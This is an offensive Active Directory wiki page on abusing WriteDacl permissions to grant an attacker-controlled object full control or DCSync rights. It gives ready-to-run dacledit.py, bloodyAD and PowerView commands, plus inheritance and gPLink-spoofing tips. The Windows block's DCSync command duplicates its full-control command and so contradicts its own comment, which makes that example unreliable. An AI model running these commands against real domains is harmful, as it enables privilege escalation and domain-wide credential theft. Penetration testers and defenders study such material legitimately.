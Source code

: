 ```yaml
---
authors: CravateRouge, KenjiEndo15, ShutdownRepo
category: ad
---
```


# Grant rights

This abuse can be carried out when controlling an object that has `WriteDacl` over another object.

The attacker can write a new ACE to the target object’s DACL (Discretionary Access Control List). This can give the attacker full control of the target object.

Instead of giving full control, the same process can be applied to allow an object to [DCSync](../credentials/dumping/dcsync.md) by adding two ACEs with specific Extended Rights (`DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). Giving full control leads to the same thing since `GenericAll` includes all `ExtendedRights`, hence the two extended rights needed for DCSync to work.

Story time, Exchange Servers used to have `WriteDacl` over domain objects, allowing attackers to conduct a [PrivExchange](../exchange-services/privexchange.md) attack where control would be gained over an Exchange Server which would then be used to grant an attacker-controlled object DCSync privileges to the domain.

> [!TIP] ACE inheritance
> 
> If attacker can write an ACE (`WriteDacl`) for a container or organisational unit (OU), if inheritance flags are added (`0x01+ 0x02`) to the ACE, and inheritance is enabled for an object in that container/OU, the ACE will be applied to it. By default, all the objects with `AdminCount=0` will inherit ACEs from their parent container/OU.
> 
> Impacket's dacledit (Python) can be used with the `-inheritance` flag for that purpose ([PR#1291](https://github.com/fortra/impacket/pull/1291)).

> [!TIP] adminCount=1 (gPLink spoofing)
> 
> In April 2024, [Synacktiv explained](https://www.synacktiv.com/en/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory) that if `GenericAll`, `GenericWrite` or `Manage Group Policy Links` privileges are available against an Organisational Unit (OU), then it's possible to compromise its child users and computers with `adminCount=1` through "gPLink spoofing".
> 
> This can be performed with [OUned.py](https://github.com/synacktiv/OUned).

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

```bash
# Give full control
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

For a DCSync granting attack, instead of using dacledit, [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) has the ability to operate that abuse with the `--escalate-user` option (see [this](https://medium.com/@arkanoidctf/hackthebox-writeup-forest-4db0de793f96)).

To enable inheritance, the `-inheritance` switch can be added to the command. Then it is possible to find interesting targets with `AdminCount=0`in BloodHound for example, by looking at the object attributs.

```bash
# Give full control on the Users container with inheritance to the child object
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=Users,DC=domain,DC=local' -inheritance "$DOMAIN"/"$USER":"$PASSWORD"
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
# Give full control (with inheritance to the child object if applicable)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add genericAll "$TargetObject" "$ControlledPrincipal"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync "$ControlledPrincipal"
```


=== Windows

From a Windows system, this can be achieved with [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Give full control
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"
```

> [!TIP]
> A few tests showed the `Add-DomainObjectAcl` command needed to be run with the `-Credential` and `-Domain` options in order to work

:::


## Resources

[http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)